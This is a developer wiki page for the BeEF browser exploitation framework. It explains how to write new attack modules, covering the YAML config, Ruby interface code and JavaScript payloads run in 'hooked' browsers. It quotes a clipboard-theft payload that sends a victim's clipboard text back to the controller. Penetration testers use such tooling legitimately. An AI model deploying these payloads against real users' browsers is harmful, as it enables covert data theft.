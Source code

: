 ## Introduction

BeEF has been designed in a modular way, it is so very easy to create a new module and add it to BeEF.

Basically, modules are all stored in the [module](https://github.com/beefproject/beef/tree/master/modules) directory and are composed of three main files :
* **config.yaml** : The YAML configuration file which describe properties of the module
* **module.rb**  which allow integrating the module in the BeEF web interface
* **command.js** : the javascript "payload" which will be executed on the hooked browser

## <a name="config"/>YAML Configuration file 

The YAML configuration file embedds five informations :
* The name of the plugin
* The name of the author
* The description of the plugin
* The category of the plugin
* The browsers that can be targeted or not

For example, here is the config.yml of the [detect_firebug](https://github.com/beefproject/beef/blob/master/modules/browser/detect_firebug/config.yaml) plugin:
```yaml
beef:
    module:
        detect_firebug:
            enable: true
            category: "Browser"
            name: "Detect FireBug"
            description: "This module checks if the Mozilla Firefox Firebug extension is being use to inspect the current window."
            authors: ["bcoles"]
            target:
                 working: ["FF"]
                 not_working: ["All"]
```

Regarding list of browser, three arrays can be defined : **working**, **not_working** or **user_notify**. Browsers are defined by their main letters : **"FF"**, **"O"**, **"C"**, **"S"**, **"IE"** or **"All"**.

It is possible to define versions exploitable by precising the minimum and maximum version of each browser. The [get_visited_url](https://github.com/beefproject/beef/blob/master/modules/browser/get_visited_urls/config.yaml) plugin is a good example :
```yaml
target:
    working:
        IE:
            min_ver: 6
            max_ver: 7
        FF:
            min_ver: 3
            max_ver: 3
        C:
            min_ver: 1
            max_ver: 5
        S:
            min_ver: 3
            max_ver: 3
        O:
            min_ver: 1
            max_ver: 10
    not_working: ["All"]
```

You can find more detailed information on [[this page|Command-Module-Config]].

## <a name="modulerb"/>Interface with rails web GUI

Next, you need to write the _module.rb_ file which will allow to be included in the BeEF interface. Don't Panic, you won't need to be a rails guru to write such file, BeEF defined high level methods and objects to do this.

### Basic architecture

Basically, your file will look like this :
```ruby
class Your_module < BeEF::Core::Command

    # This method allows defining the options proposed to the user in the interface
    def self.options
    end

    # This method will be called before sending the payload
    def pre_send
    end

    # This method will be called when BeEF will receive an answer from the hooked browser
    def post_execute
    end
end
```

### Defining data types

The **self.options** method should return an array which defines data proposed to the user. Here is an example with different fields taken from existing modules :

```ruby
  def self.options
    return [{
      'name'=>'key_paths', 
      'ui_label' => 'Key(s)',
      'description' => 'Enter registry keys. Note: each key requires its own line', 
      'type'=>'textarea', 
      'width' => '500px', 
      'height' => '350px', 
      'value'=>'HKLM\\SYSTEM\\CurrentControlSet\\Control\\SystemInformation\\SystemProductNam'
    },
    {
      'name' => 'iFrameSandbox',
      'ui_label' => 'Sandbox', 
      'type' => 'checkbox',
      'checked' => 'checked' 
    },
    {
      'name' => 'choice', 
      'type' => 'combobox',
      'ui_label' => 'Dialog Type',
      'store_type' => 'arraystore', 
      'store_fields' => ['choice'], 
      'store_data' => [['Facebook'],['LinkedIn'],['Generic']], 
      'valueField' => 'choice', 
      'value' => 'Facebook', 
      editable: false, 
      'displayField' => 'choice', 
      'mode' => 'local', 
      'autoWidth' => true 
    }]
  end
```

More detailed information on data types can be found [[here|Form-Data-Types]]

### Save returned information

It is possible to save information gathered by the script in the list of information on the hooked browser. This action should be done in the **post_execute** function, for example here is the source code of the [browser_fingerprint](https://github.com/beefproject/beef/blob/master/modules/browser/browser_fingerprinting/module.rb) plugin :

```ruby
  def post_execute
    content = {}
    content['browser_type'] = @datastore['browser_type'] if not @datastore['browser_type'].nil?
    content['browser_version'] = @datastore['browser_version'] if not @datastore['browser_version'].nil?
    if content.empty?
      content['fail'] = 'Failed to fingerprint browser.'
    end
    save content
  end
```

* **@datastore** is a dictionnary of information returned by the javascript payload
* The function define a dictionnary and save it with the **save** function.

## <a name="javascriptpayload"/>Javascript payload

The last mandatory file is the javascript payload **command.js**. The javascript payload should be included in a function called by **beef.execute**. Except that you can do anything you want here.

The following command should be used to return information to the BeEF controller :
```erb
beef.net.send("<%= @command_url %>", <%= @command_id %>, "data");
```

The BeEF javascript API already includes a lot of interesting features and embed jQuery. You can see details on this API [[here|Javascript-API]]. If you think that some functions of your module may improve the global API, look the [[relevant section|Javascript-API#wiki-improve]].

Here is an interesting example taken from [clipboard_theft](https://github.com/beefproject/beef/blob/master/modules/host/clipboard_theft/command.js) :

```Javascript
beef.execute(function() {
  if (clipboardData.getData("Text") !== null) {
    beef.net.send("<%= @command_url %>", <%= @command_id %>, "clipboard="+clipboardData.getData("Text"));
  } else {
    beef.net.send("<%= @command_url %>", <%= @command_id %>, "clipboard=clipboardData.getData is null or not supported.");
  }
});
```

## Other useful examples

### Bind an external object to a given URI

You can bind an external object to a defined URI in order to use it from the hooked browser :

```ruby
class Your_module < BeEF::Core::Command
    def pre_send
        BeEF::Core::NetworkStack::Handlers::AssetHandler.instance.bind('/path/to/file','/uri','extension')
    end

    def post_execute
        BeEF::Core::NetworkStack::Handlers::AssetHandler.instance.unbind('/uri.extension')
    end 
end
```

### Use BeEF configuration information

You can use information of the BeEF configuration in your module.rb :

```ruby
class Your_module < BeEF::Core::Command
    def self.options
        configuration = BeEF::Core::Configuration.instance
        hook_uri = "http://#{configuration.get("beef.http.host")}:#{configuration.get("beef.http.port")}/demos/report.html"
        return [
            {'name' => 'url', 'ui_label'=>'URL', 'type' => 'text', 'width' => '400px', 'value' => hook_uri },
        ]
    end 
end
````

## What's now ?

If you think that your module can be usefull to other people, join the BeEF community on github, fork the beef repository, upload your module and create a new issue for proposing it. We like people with new ideas :).

## References

* [[Reference Page on config.yml file|Command-Module-Config]]
* [[Reference Page on format type for module.rb file|Form-Data-Types]]

***

[[Previous|BeEF-Console]] | [[Next|Development-Organization]]
